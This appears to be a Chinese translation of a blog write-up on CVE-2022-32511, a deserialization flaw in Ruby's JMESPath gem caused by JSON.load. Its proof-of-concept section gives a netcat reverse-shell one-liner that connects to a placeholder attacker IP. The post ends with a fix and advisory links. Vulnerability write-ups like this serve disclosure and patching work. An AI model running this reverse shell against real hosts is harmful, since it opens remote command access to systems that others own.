



# CVE-2022–32511 |漏洞利用|远程代码执行

> 原文：<https://infosecwriteups.com/cve-2022-32511-exploit-remote-code-execution-daeffdc94219?source=collection_archive---------0----------------------->

# 描述:

由于使用了`JSON.load`，此软件包的受影响版本容易受到不受信任数据的反序列化的攻击，这在与不受信任的输入一起使用时被认为是不安全的。

# 概念验证

1.  为了重现安装“JMESPath 1.6.0”或之前版本时首先需要的步骤:



2.用下面提到的命令导入库火'**交互红宝石外壳'**:

```
irb 
```

3.如果您没有安装“irb ”,请使用以下命令下载:

```
gem install irb
```

4.选择想要的有效载荷，我已经从[按钮](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)中选择了一个



```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 'IP' 1234 >/tmp/f
```

5.最后，导入易受攻击的“JMESPath”库，并提供有效负载来执行反向 shell:



# 结论

建议使用`JSON.parse`而不是`JSON.load.`，在这种情况下，我们观察到`JSON.load`无法验证输入数据，从而导致远程代码执行。

# 参考

[](https://nvd.nist.gov/vuln/detail/CVE-2022-32511) [## NVD

### 自 NVD 上次分析以来，此漏洞已被修改。正在等待重新分析，这可能会导致…

nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2022-32511)  [## jmespath | CVE 中不可信数据的反序列化-2022-32511 | Snyk

### 您的应用程序使用这个易受攻击的包吗？只需点击几下鼠标，我们就可以分析您的整个应用程序，并了解…

security.snyk.io](https://security.snyk.io/vuln/SNYK-RUBY-JMESPATH-2859799) [](https://github.com/jmespath/jmespath.rb/compare/v1.6.0...v1.6.1) [## 比较 1.6.0 版...1.6.1 版 jme path/jme path . Rb

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/jmespath/jmespath.rb/compare/v1.6.0...v1.6.1)